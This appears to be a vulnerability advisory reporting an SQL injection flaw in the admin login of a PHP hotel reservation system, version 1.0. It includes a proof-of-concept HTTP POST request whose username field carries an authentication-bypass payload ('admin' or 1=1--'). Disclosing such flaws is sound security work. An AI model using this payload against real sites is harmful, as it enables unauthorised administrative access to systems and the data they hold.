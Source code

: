 ## Online Hotel Reservation System has an SQL injection vulnerability

## Affected version: 
Online Hotel Reservation System - 1.0

## Software:
https://code-projects.org/simple-online-hotel-reservation-system-in-php-with-source-code/

## Vulnerability File:
/HOR/admin/

## Description:
The administrator login interface of this online hotel system has an SQL injection vulnerability, allowing attackers to log in with a universal password by constructing specific statements.

Status: Moderate

POC
```
POST /HOR/admin/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/HOR/admin/
Cookie: PHPSESSID=db5no8dvip725j5p64esp3qbge
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=admin%27+or+1%3D1--+&password=s&login=
```






